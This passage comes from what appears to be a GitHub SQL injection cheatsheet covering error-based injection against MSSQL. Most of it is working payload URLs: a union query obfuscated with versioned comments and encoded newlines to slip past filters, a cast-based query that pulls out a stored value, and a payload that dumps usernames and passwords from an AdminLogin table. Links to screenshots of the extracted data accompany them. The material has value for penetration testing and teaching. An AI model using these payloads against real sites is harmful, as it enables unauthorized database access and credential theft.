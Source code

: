 - No output will be displayed because it is stored into an environment variable. We can access it by using one of the 2 following payload:
    
    Union based query:  
    `http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,output,4-- -`
    
    Boolean based query:  
    `http://domain.com/index.php?id=1' and 1=cast(select output from Kleiton0x00)-- -`
    

_NOTE: Replace the vulnerable column number (this case it was **3**). The number is found with UNION based payloads we did on the previous step._

- Look at the error message/website, the retrieved informations are shown.

[![dios_dumped_db](https://camo.githubusercontent.com/00fb9fb27ebebce49683cd780159f59f3616c6acf24dffda39753f3ebee75de4/68747470733a2f2f692e696d6775722e636f6d2f4f6d57456369522e6a7067)](https://camo.githubusercontent.com/00fb9fb27ebebce49683cd780159f59f3616c6acf24dffda39753f3ebee75de4/68747470733a2f2f692e696d6775722e636f6d2f4f6d57456369522e6a7067)

### Dumping data inside columns

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#dumping-data-inside-columns)

We know what the tables and columns are (from DIOS or manual dumping), however DIOS is much more recommended as it saves time and effort.

This is a piece of the whole database that we will dump:

**Table name**: _AdminLogin_  
**Columns**: _username_, _password_

`http://domain.com/index.php?id=1' and 1=(select username %2b ':' %2b password from AdminLogin for xml PATH("))-- -`

[![column_dumped](https://camo.githubusercontent.com/28fed9a0ddea549c8dee24e67a6c3def912d7ae0e12d20a34f06a18737935e8c/68747470733a2f2f692e696d6775722e636f6d2f4f7766756e56672e6a7067)](https://camo.githubusercontent.com/28fed9a0ddea549c8dee24e67a6c3def912d7ae0e12d20a34f06a18737935e8c/68747470733a2f2f692e696d6775722e636f6d2f4f7766756e56672e6a7067)